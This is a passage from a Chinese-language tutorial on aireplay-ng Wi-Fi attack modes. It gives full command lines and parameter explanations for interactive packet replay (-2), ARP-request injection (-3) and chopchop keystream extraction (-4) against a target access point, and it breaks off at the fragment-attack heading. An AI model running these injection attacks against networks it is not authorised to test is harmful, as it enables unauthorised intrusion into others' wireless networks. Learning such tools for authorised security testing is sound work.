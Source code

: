 -2 Interactive 交互模式

这种攻击模式是一个抓包和提数据发攻击包，三种集合一起的模式

1．这种模式主要用于研究学习无客户端，先用-1 建立虚假客户端连接然后直接发包攻击 

```
aireplay-ng -2 -p 0841 -c ff:ff:ff:ff:ff:ff -b <ap mac> -h <my mac> wifi0
参数说明：
【-2】：交互攻击模式
【-p】：设置控制帧中包含的信息（16 进制），默认采用 0841
【-c】：设置目标 mac 地址
【-b】：设置 ap 的 mac 地址
【-h】：设置伪装客户端的网卡 MAC（即自己网卡 mac）
```

2．提取包，发送注入数据包， 发包攻击。

```
 aireplay-ng -2 –r <file> -x 1024 wifi0
 -x 1024 是限定发包速度，避免网卡死机，可以选择 1024
```

### 4.注入攻击模式

-3 ARP-request 注入攻击模式

这种模式是一种抓包后分析重发的过程 这种攻击模式很有效。既可以利用合法客户端，也可以配合-1 利用虚拟连接的伪装客户端。如果有合法客户端那一般需要等几分钟，让合法客户端和 ap 之间通信，少量数据就可产生有效 ARP request 才可利用-3模式注入成功。如果没有任何通信存在，不能得到 ARP request.，则这种攻击就会失败。

如果合法客户端和ap之间长时间内没有 ARP request，可以尝试同时使用-0 攻击. 如果没有合法客户端，则可以利用-1 建立虚拟连接的伪装客户端，连接过程中获得验证数据包，从而产生有效 ARP request。再通过-3 模式注入。

```
aireplay-ng -3 -b <ap mac> -h <my mac> -x 512 wifi0
参数说明：
【-3】：arp 注入攻击模式
【-b】：设置 ap 的 mac
【-h】：设置自己的mac地址
【-x】：定义每秒发送数据户包的数量，但是最高不超过 1024，建议使用 512（也可不定义）
```

### 5.Chopchop 攻击模式

-4 Chopchop 攻击模式

用以获得一个包含密钥数据的 xor 文件 这种模式主要是获得一个可利用包含密钥数据的 xor 文件，不能用来解密数据包。而是用它来产生一个新的数据包以便我们可以进行注入。

```
aireplay-ng -4 -b <ap mac> -h <my mac> wifi0 
参数说明：
【-b】：设置需要研究学习的 AP 的 mac
【-h】：设置虚拟伪装连接的 mac（即自己网卡的 mac）
```

### 6.碎片包攻击模式

-5 fragment 碎片包攻击模式
